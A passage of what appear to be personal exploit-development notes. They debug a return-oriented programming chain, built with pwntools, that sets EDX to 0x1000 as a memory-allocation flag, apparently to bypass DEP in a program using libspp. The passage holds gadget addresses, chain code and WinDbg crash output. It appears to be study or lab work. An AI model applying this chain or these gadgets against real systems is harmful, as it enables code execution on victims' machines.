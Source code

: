 Running this and setting a breakpoint at the end, and it errors.

# Debugging

So close, the edx sar starting value is off.
I think it should be:
```
body += pwn.p32(0x0FFF4040)
```
As it will get shifted to `0x00000FFF` then incremented to `0x00001000`

Trying again
```
0:007> 
(2924.cfc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0fff4041 ebx=77411594 ecx=1020f040 edx=00000fff esi=7728b770 edi=1015a2f0
eip=10154f1d esp=02d1fadc ebp=90909090 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
libspp!pcre_exec+0x1108d:
10154f1d 8810            mov     byte ptr [eax],dl          ds:002b:0fff4041=??
0:007> 
(2924.cfc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=00000000 edx=77638fd0 esi=00000000 edi=00000000
eip=00000000 esp=02d1f6a8 ebp=02d1f6c8 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
00000000 ??              ???
```

...

First thing is that it inc needs to come after the sar
```
#EDX = flAllocationType #0x1000
body += pwn.p32(addr_popecxret)
body += pwn.p32(0x1020f040)
body += pwn.p32(addr_popeaxret)
body += pwn.p32(0x0FFF4040)
body += pwn.p32(addr_movedxeax_saredx)
body += pwn.p32(addr_incecxret)
body += pwn.p32(addr_saredx)
```

Trying again.
Sam exception handler.

Oh the `addr_saredx` gadget is wrong. It should be:
```
0x10142fa2: sar edx, 8; mov byte ptr [ecx + 4], dl; ret;
```

The inc also needs to be on edx
```
0x1012bb29: inc edx; mov ax, dx; ret;
```
